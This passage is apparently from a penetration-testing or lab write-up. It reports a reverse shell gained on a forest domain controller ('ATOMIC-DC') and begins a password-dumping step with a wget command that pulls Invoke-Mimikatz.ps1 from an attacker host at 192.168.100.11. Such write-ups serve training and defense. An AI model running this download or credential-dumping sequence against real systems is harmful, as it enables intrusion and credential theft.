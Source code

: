 ![picture 24](images/f289ccd0e2f98d3d88fbeccb77929233a3e32a972532f7393ba5d3721b8c477b.png)  

<br/>

As shown, we have a reverse shell on the Forest DC `ATOMIC-DC`.

<br/>

## Password Dumping on Forest DC

First download mimikatz:

```
cd C:\Users\Public
wget http://192.168.100.11/Invoke-Mimikatz.ps1 -OutFile .\Invoke-Mimikatz.ps1
```

